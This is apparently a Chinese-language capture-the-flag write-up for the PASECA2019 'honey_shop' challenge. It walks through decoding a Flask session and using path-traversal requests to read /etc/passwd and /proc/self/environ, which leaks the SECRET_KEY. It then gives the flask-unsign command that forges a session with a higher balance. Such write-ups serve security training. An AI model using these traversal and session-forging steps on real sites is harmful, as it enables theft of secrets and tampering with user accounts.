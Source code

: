 # \[PASECA2019]honey\_shop

## \[PASECA2019]honey\_shop

## 考点

* LFI
* 任意文件下载
* Flask伪造session

## wp

提示有1336块钱，买flag需要1337块钱。

发现存在session内容如下

```
eyJiYWxhbmNlIjoxMzM2LCJwdXJjaGFzZXMiOltdfQ.YmkaXQ.fruZujDjSk6Qq1MSDRQGKuX8NVw
```

flask-unsign解码一下，得到`{'balance': 1336, 'purchases': []}`，看来需要获取secret\_key修改session来购买flag

试了一下，整个页面除了购买外，只有图片可以点

![](<../../.gitbook/assets/image (23) (1) (1).png>)

尝试任意文件下载，发现/download?image=../../etc/passwd可以下载文件

![](<../../.gitbook/assets/image (35) (1).png>)

访问/download?image=../../proc/self/cmdline，得到运行目录app/app.py

访问/download?image=../../proc/self/environ得到SECRET\_KEY=eiYzH7ck0Pta8ghUGYRRpD8LtNjw5TE2ssJ1BL0F

![](<../../.gitbook/assets/image (4) (1).png>)

重新加密session，`flask-unsign.exe --secret "eiYzH7ck0Pta8ghUGYRRpD8LtNjw5TE2ssJ1BL0F" --sign --cookie "{'balance': 2000, 'purchases': []}"`，得到`eyJiYWxhbmNlIjoyMDAwLCJwdXJjaGFzZXMiOltdfQ.YmkdOg.P80Or5syU9nQrh8nURtyyqinVUY`

修改session购买flag即可
